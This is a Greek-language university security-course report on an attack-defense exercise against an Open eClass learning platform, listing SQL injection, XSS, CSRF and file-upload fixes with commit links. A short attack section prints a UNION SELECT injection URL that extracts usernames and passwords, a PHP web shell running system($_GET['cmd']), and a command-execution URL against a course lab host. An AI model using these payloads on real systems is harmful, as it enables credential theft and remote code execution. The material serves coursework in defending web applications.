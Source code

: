 Ανάπτυξη Αξιόπιστου και Ασφαλούς Λογισμικού  
Ομάδα: **Pappabakaliatis**  
Ημ/νία: 06/05/2020  

## 1. Άμυνα
#### 1.1 SQL Injection Prevention  
Αρχικά, ελέγξαμε τα σημεία στα οποία ενδεχομένως ήδη γίνεται κάποιο (έστω και μερικώς αναποτελεσματικό) SQL injection prevention. Αφότου βρήκαμε την `escapeSimple()` και διερευνήσαμε ποιες από τις σχετικές μεθόδους που καλούνται όντως υπάρχουν, ανανεώσαμε τη μέθοδο με σκοπό να γίνονται escape πάντοτε οι επικίνδυνοι χαρακτήρες για την SQL. Στη συνέχεια, εντοπίσαμε όλα τα σημεία εκείνα στα οποία ένα injection θα ήταν δυνατό, και καλέσαμε την `escapeSimple()` στις μεταβλητές εισόδου. Ενδεικτικά, αυτό έχει πραγματοποιηθεί στα εξής commits:

* Δημιουργία χρήστη
    -	https://github.com/ChrisPapp/defend-eclass/commit/438b2cf6dae184a5aae76d3ad1307f4c28af9411
    -	https://github.com/ChrisPapp/defend-eclass/commit/f8df871ce6c17de85a3cf78c8faf91e3e1663a01
*	Περιοχές συζητήσεων  
    - https://github.com/ChrisPapp/defend-eclass/commit/1b2baec5f0d9c453949e356a75806a861246cad9
    -	https://github.com/ChrisPapp/defend-eclass/commit/4d6a5f1efdede2f448332b66cf6e25858c246085
    -	https://github.com/ChrisPapp/defend-eclass/commit/2536a9a9943faf4431cc74de00758424de4e2e23
*	Εργασίες
    -	https://github.com/ChrisPapp/defend-eclass/commit/af417db8cef9dcba0953dda33b062e121efd1e61
    -	https://github.com/ChrisPapp/defend-eclass/commit/59c24ed6a61fd8dfc221096b1a4a93f21ad63a2a
*	Επεξεργασία προφίλ
    -	https://github.com/ChrisPapp/defend-eclass/commit/8d4cf72c3b6d41f0b40ffdc20456a7ad63835ac0
*	Εγγραφή σε/Απεγγραφή από μάθημα
    -	https://github.com/ChrisPapp/defend-eclass/commit/47735fc0eb423e283698304fa51adc4e95d84f11
    -	https://github.com/ChrisPapp/defend-eclass/commit/2dabc608a020dc5c0911dff445574090c6129724
*	Ανταλλαγή αρχείων
    -	https://github.com/ChrisPapp/defend-eclass/commit/70205cb9276f427cc5f380e9a1b824e85ccab477
    - https://github.com/ChrisPapp/defend-eclass/commit/9c6dd4895e44535f19f3b220b6aefcb518b0c71c  

Φυσικά, σε κάποια σημεία γινόταν ήδη χρήση της escapeSimple(), οπότε και με τη δική μας βελτίωση λειτουργούν και αυτά σωστά. Αυτά τα σημεία δεν αναφέρονται στην παραπάνω λίστα.

#### 1.2 XSS Prevention  
Στο πλαίσιο του XSS prevention, δημιουργήθηκε μία συντόμευση `q()` για την `htmlspecialchars()`, η οποία περιλαμβάνει το flag `ENT_QUOTES` (στο include/lib/main.lib.php), απλώς για λόγους μεγαλύτερης ευελιξίας και ταχύτητας κατά την εκτέλεση της άμυνας. Όπου, λοιπόν, βρίσκετε τη σχετική κλήση της `q()` πρόκειται για XSS prevention. Μετατροπές έχουν πραγματοποιηθεί στα εξής commits:

*	Δημιουργία/Είσοδος χρήστη
    -	https://github.com/ChrisPapp/defend-eclass/commit/844a4cd867e98458150d5287b18a7bceedbd70d3
*	Αναζήτηση
    -	https://github.com/ChrisPapp/defend-eclass/commit/b8af85ca2594fa373fc105cda6290a84c9982106
*	Εργασίες
    -	https://github.com/ChrisPapp/defend-eclass/commit/af417db8cef9dcba0953dda33b062e121efd1e61 (αλλαγή και της `replace_dangerous_char()` με σκοπό να αντικαθιστά και την απόστροφο)
    -	https://github.com/ChrisPapp/defend-eclass/commit/a3150c65996fcaf20b92e85bef3ecb3771fba406
*	Τηλεσυνεργασία
    -	https://github.com/ChrisPapp/defend-eclass/commit/600124cb8a677bf318fcc6e60293efe92f15c5d4
*	Περιοχές συζητήσεων
    -	https://github.com/ChrisPapp/defend-eclass/commit/1b2baec5f0d9c453949e356a75806a861246cad9
    -	https://github.com/ChrisPapp/defend-eclass/commit/2536a9a9943faf4431cc74de00758424de4e2e23
    -	https://github.com/ChrisPapp/defend-eclass/commit/0ca238ef9779b80ead74c5e8dc459e3a9de3f7db
*	Εγγραφή σε/Απεγγραφή από μάθημα
    -	https://github.com/ChrisPapp/defend-eclass/commit/2dabc608a020dc5c0911dff445574090c6129724
    -	https://github.com/ChrisPapp/defend-eclass/commit/23c0d67c7ce26b8fc2feaab02765cfe74308bf3d
*	Διαχείριση χρηστών από admin
    -	https://github.com/ChrisPapp/defend-eclass/commit/85d388c858a92ca1270bddff6dc1f1b4ba3d8bd7
*	Ανταλλαγή αρχείων
    -	https://github.com/ChrisPapp/defend-eclass/commit/70205cb9276f427cc5f380e9a1b824e85ccab477
*	Επεξεργασία προφίλ
    -	https://github.com/ChrisPapp/defend-eclass/commit/8d4cf72c3b6d41f0b40ffdc20456a7ad63835ac0

#### 1.3 CSRF
Χρησιμοποιώντας τη βιβλιοθήκη paragonie/random_compat δημιουργήσαμε τη μέθοδο `generate_csrf_token()` (include/lib/main.lib.php). Όπου υπάρχει φόρμα, γίνεται validation του session token με τη μέθοδο `validate_token()` (η οποία περιέχει και πανέμορφη τρολιά για τους _επίδοξους_ χάκερς μας). Αποτροπή επιθέσεων CSRF γίνεται στα εξής commits:

*	Δημιουργία token και προσθήκη βιβλιοθήκης
    -	https://github.com/ChrisPapp/defend-eclass/commit/2d8ee019a96c98afc7f0085a07832a0f58151145
*	Υλοποίηση validation
    -	https://github.com/ChrisPapp/defend-eclass/commit/2cf67e9f38715eda5cfb0ab8982ca0546cab7ac8
*	Επεξεργασία προφίλ
    -	https://github.com/ChrisPapp/defend-eclass/commit/666fd8381793f6e32ac277e7f7316275e40abcf0 (η πιθανότητα να ξεκινάει ένας 40ψήφιος [commit's SHA] με τον συγκεκριμένο 3ψήφιο και να μην εμφανίζεται κάπου αλλού είναι `p=0.000025359`, αν δεν έχουμε ξεχάσει τελείως τις πιθανότητες που ξέραμε, οπότε παρακαλούμε να συνεκτιμηθεί)
*	Τηλεσυνεργασία
    -	https://github.com/ChrisPapp/defend-eclass/commit/9ee686450e60f4a4342f70616ba1e7053096e967
    -	https://github.com/ChrisPapp/defend-eclass/commit/d04b259c673bece0c287645769f4bbb2952c25df
*	Διαχείριση χρηστών από admin
    -	https://github.com/ChrisPapp/defend-eclass/commit/3006dbeccda78fd919f7d1beaec01e602b20c999
*	Διαγραφή, επεξεργασία και ανανέωση μαθήματος
    -	https://github.com/ChrisPapp/defend-eclass/commit/de79153f367ca63e16d335ca5826b35143fcfcdf
*	Δημιουργία guest χρήστη
    -	https://github.com/ChrisPapp/defend-eclass/commit/b3a3484e58cce9a6a1eba240b98f3b1f99e61542
*	Προσθήκη πολλαπλών χρηστών
    -	https://github.com/ChrisPapp/defend-eclass/commit/1bad45e49c393fd28d337afc4b89c96b630b2999

#### 1.4 RFI prevention
Λόγω πίεσης χρόνου και αδυναμίας παραμετροποίησης των ρυθμίσεων του server, εδώ περιοριστήκαμε στο να μπλοκάρουμε τα αρχεία .php όπου επιτρέπεται το ανέβασμα αρχείου και στο καλύτερο randomization του τυχαίου path όπου αυτά αποθηκεύονται, ώστε να είναι δυσκολότερη ή και αδύνατη η εκτέλεσή τους.  
Commits: https://github.com/ChrisPapp/defend-eclass/commit/a9a4cddde89282fb11d7719ddae52ce1bba8abc6, https://github.com/ChrisPapp/defend-eclass/commit/b2dbfe63332ad22a1f907df2006f9604dc9c235a.
Τέλος, έγινε hashing στο όνομα του αρχείου του chat της τηλεσυνεργασίας ώστε να μην μπορεί να το εμφανίσει κάποιος κάνοντας get request στο ανάλογο path.

## 2. Επιθέσεις
*	Αρχικά υποκλέψαμε τον κωδικό με SQL injection: http://cookies_garo_kai_crackaro.csec.gr/modules/phpbb/viewtopic.php?topic=320582)%20%20UNION%20SELECT%20username,%20password%20FROM%20eclass.user%20WHERE%20user_id=1/*&forum=1
*	Στη συνέχεια έγινε αποστολή εργασίας με .php αρχείο με περιεχόμενο
```php
<?php 
	echo system($_GET['cmd']);
?>
```
  βρήκαμε το secret directory όπου αυτό αποθηκεύεται με ένα ακόμα request: http://cookies_garo_kai_crackaro.csec.gr/modules/phpbb/viewtopic.php?topic=69)%20UNION%20SELECT%20id,%20secret_directory%20FROM%20assignments/*&forum=1
  και αποκτήσαμε τη δυνατότητα να τρέξουμε όποια commands θέλουμε, όπως: http://cookies_garo_kai_crackaro.csec.gr/courses/TMA101/work/5ea49d7f31ae3/Hacker%20Your%208170105.php?cmd=pwd
*	Στην εργασία που αναφέρθηκε προηγουμένως έγινε και XSS επίθεση στο σχόλιο που τη συνοδεύει, όπως φαίνεται και στις διαφάνειες του μαθήματος.

Επειδή η εφαρμογή έχει πέσει, για να δουλέψουν τα παραπάνω, θα πρέπει να ξανανέβει και να δοκιμαστούν στην πράξη.

Forever yours,
οι Pappabakaliatis σας.
